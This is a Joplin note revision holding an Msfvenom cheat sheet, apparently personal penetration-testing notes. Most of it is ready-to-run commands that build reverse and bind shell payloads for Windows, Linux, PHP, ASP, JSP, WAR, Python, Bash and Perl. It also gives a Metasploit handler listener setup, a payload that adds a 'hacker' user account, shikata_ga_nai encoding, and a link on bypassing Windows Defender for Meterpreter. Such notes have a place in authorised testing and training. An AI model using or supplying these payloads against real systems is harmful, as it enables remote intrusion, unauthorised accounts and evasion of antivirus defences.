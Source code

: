 id: 822fe94d292b49c696e8fc577415a230
parent_id: 
item_type: 1
item_id: c5501ccb1e8d457f9a5080d28007af2e
item_updated_time: 1643074289239
title_diff: "[{\"diffs\":[[1,\"Msfvenom\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":8}]"
body_diff: "[{\"diffs\":[[1,\"## Creating a payload\\\n\\\n- msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport]\\\n\\\nTo view list of payloads: msfvenom -l payloads\\\nTo view the payload options: msfvenom -p windows/x64/meterpreter_reverse_tcp --list-options\\\n\\\n## Creating a payload with encoding\\\n\\\n- msfvenom -p [payload] -e [encoder] -f [formattype] -i [iteration] <var=value> > outputfile\\\n\\\n## Creating a payload using a template\\\n\\\n- msfvenom -p [payload] <var=value> -x [template] -f [formattype] > outputfile\\\n\\\n## Listening for MSfvenom Payloads:\\\n\\\n```\\\nmsf5>use exploit/multi/handler  \\\nmsf5>set payload windows/meterpreter/reverse_tcp  \\\nmsf5>set lhost <IP>  \\\nmsf5>set lport <PORT>  \\\nmsf5> set ExitOnSession false  \\\nmsf5>exploit -j  \\\n```\\\n\\\n## Windows Payloads\\\n\\\n- msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe\\t\\\n- msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent=\\\"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36\\\" -f exe > shell.exe\\t\\\n- msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe\\t\\\n- msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe\\t\\\n- msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe\\\n\\\n## Linux Payloads\\\n\\\n- msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf\\t\\\n- msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf\\t\\\n- msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf\\t\\\n- msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf\\\n\\\nAdd a user in windows with msfvenom: \\\n\\\n- msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe\\\n\\\n## Web Payloads\\\n\\\nPHP\\\n\\\n- msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php\\\ncat shell.php | pbcopy && echo '<?php ' | tr -d '\\\\\n' > shell.php && pbpaste >> shell.php\\\n\\\nASP\\\n\\\n- msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp\\\n\\\nJSP\\\n\\\n- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp\\\n\\\nWAR\\\n\\\n- msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war\\\n\\\n## Scripting Payloads\\\n\\\nPython\\\n\\\n- msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py\\\n\\\nBash\\\n\\\n- msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh\\\n\\\nPerl\\\n\\\n- msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl\\\n\\\n\\\nCreating an Msfvenom Payload with an encoder while removing bad charecters:\\\n\\\n- msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b \\\"\\\\x0A\\\\x0D\\\"\\\n\\\n## Resources:\\\n\\\n- https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":3009}]"
metadata_diff: {"new":{"id":"c5501ccb1e8d457f9a5080d28007af2e","parent_id":"8e7bd5349cf3494986eccd0619b576c9","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1611575146763.25,"user_updated_time":1588894151660,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:44:25.713Z
created_time: 2022-02-28T02:44:25.713Z
type_: 13